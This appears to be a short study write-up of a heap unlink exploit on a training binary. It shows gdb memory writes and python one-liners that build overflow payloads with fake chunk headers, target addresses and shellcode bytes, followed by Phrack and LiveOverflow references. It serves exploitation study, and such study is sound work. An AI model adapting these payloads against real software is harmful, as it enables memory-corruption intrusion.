 
## Exploitation
failed
```
set {int}0x804c054=100
set {int}0x804c050=0x10
set {int}0x804c044=0x11
set {int}0x804c048=0x804b128-0x12
set {int}0x804c04c=0x804c010
```

success
```bash
python -c "print('B'*36+'\x65')" > /tmp/b
(gdb) r AAAAAAAAAAAA `cat /tmp/b` CCCCCCCCCCCC

python -c "print('C'*92+'\xfc\xff\xff\xff\xfc\xff\xff\xff'+'\x1c\xb1\x04\x08'+'\x08\xc0\x04\x08')" > /tmp/c

python -c "print('\xB8\x64\x88\x04\x08\xFF\xD0')" > /tmp/a


```

## Some Oddness Thing

## Resources
anonymous. *Once upon a free()*. https://phrack.org/issues/57/9.html.

LiveOverflow. *The Heap: Once upon a free() - bin 0x17*
. https://www.youtube.com/watch?v=gL45bjQvZSU&list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN&index=30.

LiveOverflow. *The Heap: dlmalloc unlink() exploit - bin 0x18*
. https://www.youtube.com/watch?v=HWhzH--89UQ&list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN&index=32.